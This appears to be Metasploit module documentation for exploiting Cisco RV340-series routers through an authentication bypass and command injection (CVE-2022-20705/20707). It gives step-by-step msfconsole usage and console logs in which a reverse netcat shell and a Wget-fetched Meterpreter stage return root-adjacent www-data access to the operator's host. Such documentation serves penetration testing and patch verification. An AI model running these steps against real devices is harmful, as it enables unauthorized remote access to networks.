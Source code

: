 ## Vulnerable Application

This module exploits two vulnerabilities, an authentication bypass (CVE-2022-20705) and a command injection vulnerability (CVE-2022-20707),
to execute code on Cisco RV160, RV260, RV340, and RV345 Small Business Routers prior to 1.0.03.26 as the
`www-data` user. The command injection occurs in the `upload.cgi` script, where user input in the `data` POST parameter
is passed to `curl` without any sanitization. Additionally, the `sessionid` session cookie can be abused for a path
traversal vulnerability, which can be used to bypass authentication by setting `sessionid` to the path to a valid
file on the target.

This module has been tested against an RV340 device running firmware version 1.0.03.24. 
Firmware version 1.0.03.26 patches these vulnerabilities.

### Installation

Firmware version 1.0.03.24, which is vulnerable to CVE-2022-20705 and CVE-2022-20707, can be downloaded from
https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.24

To install this firmware, follow the following directions:
1. Log into the modem. The default IP address is 192.168.1.1 and the default credentials
   are `cisco` for the username and password.
2. The `administration` option on the left side of the web page will take you to a form
   with a `Manual Upgrade` section.
3. Leave `File Type: ` on the default `Firmware Image` option.
4. Change `Upgrade From:` option to `PC`.
5. Press the `Upgrade` button.
6. Press `Yes` on the message box asking `Are you sure you want to upgrade the firmware right now?`.
7. Wait for router reboot to complete.

## Verification Steps

1. Install the vulnerable firmware
2. Start `msfconsole`
3. Do: `use modules/exploits/linux/http/cisco_rv340_lan`
4. Do: `set lhost <listening ip>`
5. Do: `set rhost <target ip>`
6. Do: `exploit`
7. Verify: You see the message `Exploit successfully executed` confirming the exploit completed
8. Verify: You are the `www-data` user using the `id` command

## Options

## Scenarios

### Cisco RV340 Router 1.0.03.24 on ARM architecture - reverse_netcat payload

```
msf > use modules/exploits/linux/http/cisco_rv340_lan
[*] Using configured payload cmd/unix/reverse_netcat
msf exploit(linux/http/cisco_rv340_lan) > set lhost 192.168.1.142
lhost => 192.168.1.142
msf exploit(linux/http/cisco_rv340_lan) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf exploit(linux/http/cisco_rv340_lan) > exploit

[*] Started reverse TCP handler on 192.168.1.142:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (192.168.1.142:4444 -> 192.168.1.1:55885) at 2023-02-05 10:06:22 -0500
[+] Exploit successfully executed.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Cisco RV340 Router 1.0.03.24 on ARM architecture - reverse_tcp ARMLE Meterpreter payload

```
msf > use modules/exploits/linux/http/cisco_rv340_lan
[*] Using configured payload cmd/unix/reverse_netcat
msf exploit(linux/http/cisco_rv340_lan) > set lhost 192.168.1.142
lhost => 192.168.1.142
msf exploit(linux/http/cisco_rv340_lan) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf exploit(linux/http/cisco_rv340_lan) > set target 1
target => 1
msf exploit(linux/http/cisco_rv340_lan) > exploit

[*] Started reverse TCP handler on 192.168.1.142:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.142:8080/3b2NfBKR0OS
[*] Client 192.168.1.1 (Wget) requested /3b2NfBKR0OS
[*] Sending payload to 192.168.1.1 (Wget)
[*] Sending stage (934728 bytes) to 192.168.1.1
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Meterpreter session 2 opened (192.168.1.142:4444 -> 192.168.1.1:55950) at 2023-02-05 10:12:37 -0500
[*] Server stopped.

meterpreter > shell
Process 11012 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
